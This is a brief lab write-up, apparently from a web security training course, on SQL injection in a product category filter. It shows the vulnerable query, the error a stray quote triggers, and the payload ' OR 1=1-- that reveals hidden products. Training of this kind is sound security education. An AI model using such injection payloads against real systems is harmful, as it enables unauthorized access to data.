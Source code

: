 # Lab 01 : SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Overview:
- Level : APPRENTICE
- SQL injection - product category filter
- SELECT * FROM products WHERE category = 'Gifts' AND released = 1 
- End goal: display all products both released and unreleased.

## Analysis:
- when we select gifts as category it give 3 items
- put ' and it give 500 internal server error   
    SELECT * FROM products WHERE category = '

## Solution:
- we want to display all products both released and unreleased.
    payload : ' OR 1=1--
    query : SELECT * FROM products WHERE category = '' OR 1=1--'


